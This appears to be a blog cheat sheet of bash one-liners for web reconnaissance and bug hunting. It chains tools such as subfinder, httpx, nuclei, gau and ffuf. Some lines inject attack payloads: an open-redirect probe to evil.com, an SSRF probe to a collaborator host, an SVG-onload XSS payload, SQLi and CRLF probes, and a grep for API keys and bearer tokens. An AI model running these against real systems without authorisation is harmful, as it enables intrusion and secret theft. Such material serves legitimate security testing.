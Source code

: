 ```yaml
---
title: "Hacking One Liners"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [one-liners, subfinder, httpx, nuclei, ffuf, gau, gospider, naabu, bash, shuffledns, dnsx, notify, recon, automation, js, token-hunting]
order: 3
---
```


A curated collection of powerful, compact one-liners used throughout reconnaissance, scanning, and early exploitation workflows. These are quick-fire tools for chaining recon steps, automating scans, or rapidly discovering weak points.

---

## 🔍 Subdomains → Live Hosts → Scan

```bash
subfinder -d example.com -silent | httpx -silent | nuclei -silent -t ~/nuclei-templates -o results.txt
```

## 🔁 Passive URLs → Filter → Nuclei

```bash
gau example.com | grep -iE '\.php|\.asp|\.aspx|\.jsp' | httpx -silent | nuclei -silent -o tech-findings.txt
```

## ⚡ Quick Port Discovery + Probing

```bash
naabu -host example.com -top-ports 100 | httpx -silent -title -status-code
```

## 🕸️ Subdomains → Resolve → Probing → Nuclei

```bash
subfinder -d example.com -silent | dnsx -silent | httpx -silent | nuclei -t cves/ -o cve-scan.txt
```

## 🧪 Wordlist Fuzz → Live Endpoint Test

```bash
ffuf -u https://example.com/FUZZ -w common.txt -mc 200 | awk '{print $1}' | httpx -silent | nuclei -o ffuf-discovered.txt
```

## 🧠 Passive + Active URL Collect + Scan

```bash
(subfinder -d example.com; gau example.com) | sort -u | httpx -silent | nuclei -o passive-active-results.txt
```

## 🧼 Filter JavaScript Files for Review

```bash
gau example.com | grep '\.js$' | sort -u | httpx -silent -mc 200 | tee js-live.txt
```

## 🛠️ Crawl → Extract URLs → Scan

```bash
gospider -s https://example.com -t 10 -q | grep -oP 'https?://[^ ]+' | httpx -silent | nuclei -silent -o spider-findings.txt
```

## 🔓 Nuclei Fast Severity Filter

```bash
cat live.txt | nuclei -severity high,critical -silent -o high-crit.txt
```

## 🧪 JS → Endpoint Extraction (deep)

```bash
cat js-live.txt | xargs -n1 -I{} curl -s {} | grep -oP 'https?://[^\"]+' | sort -u
```

## 🎣 Open Redirect Detection

```bash
gau target.com | grep "=" | qsreplace 'https://evil.com' | httpx -silent -location -fr -mc 301,302 | grep 'evil.com'
```

## 🧠 Param Mining + Fuzz

```bash
gau target.com | uro | grep "=" | gf xss | qsreplace 'FUZZ' | ffuf -u FUZZEDURL -w payloads.txt -mc 200
```

## 🧪 SSRF Testing

```bash
cat urls.txt | gf ssrf | qsreplace 'http://your-burp-collab.com' | httpx -silent -fr
```

## 🪝 XSS Reflected Testing

```bash
cat urls.txt | grep "=" | qsreplace '<svg onload=alert(1)>' | httpx -silent -mc 200 -sr | grep '<svg onload=alert(1)>'
```

## 🗂️ Sitemap Extractor

```bash
curl -s https://target.com/sitemap.xml | grep -oP '(?<=<loc>).*?(?=</loc>)'
```

## 🗃️ Git Folder Check

```bash
httpx -l subs.txt -path /.git/config -mc 200
```

## 🔁 HTTP Method Tester

```bash
for m in GET POST PUT DELETE OPTIONS TRACE PATCH; do curl -X $m -I https://target.com | grep HTTP; done
```

## 🧾 Form Extraction

```bash
cat alive.txt | xargs -n1 -I{} curl -s {} | pup 'form json{}' | jq .
```

## 🔐 CORS Misconfig Check

```bash
curl -H 'Origin: https://evil.com' -I https://target.com | grep 'Access-Control-Allow-Origin'
```

## 🧬 SQLi Prober

```bash
gau target.com | grep "=" | qsreplace "'" | httpx -silent -mc 500,403,400
```

## ⚠️ CRLF Injection Test

```bash
cat urls.txt | qsreplace '%0d%0aPoC:CRLF' | httpx -silent -fr -mc 200 | grep 'PoC:CRLF'
```

## 📬 Email Discovery

```bash
gau target.com | xargs -n1 curl -s | grep -Ei '[a-z0-9._%+-]+@[a-z0-9.-]+\.[a-z]{2,}' | sort -u
```

## 🪛 Find Secrets in JS

```bash
cat js-live.txt | xargs -n1 curl -s | grep -Eo 'API_KEY|api_key|secret|Bearer [A-Za-z0-9\\-_\\.]+' | sort -u
```

## 📂 Extension/Backup File Discovery

```bash
gau target.com | grep -iE '\.zip|\.gz|\.sql|\.tar|\.bak' | httpx -silent -mc 200
```

## 🧾 Wayback Param Harvesting

```bash
gau target.com | cut -d '?' -f2 | cut -d '&' -f1 | sort -u
```

## 🔗 Dangling Subdomain Takeover Check

```bash
subfinder -d target.com -silent | dnsx -a -cname -resp-only | grep -iE 'github|heroku|amazonaws'
```

## 🪞 Mirror Target Webpage

```bash
wget --mirror --convert-links --adjust-extension --page-requisites --no-parent https://target.com
```

## 🧼 Clean Noise from URLs

```bash
cat all-urls.txt | grep -vE '\.(png|jpg|jpeg|gif|svg|css|ico|woff|ttf|pdf)$' | sort -u
```

## 🧹 Dedupe + Filter Live URLs

```bash
cat urls.txt | sort -u | httpx -silent -mc 200 | anew final.txt
```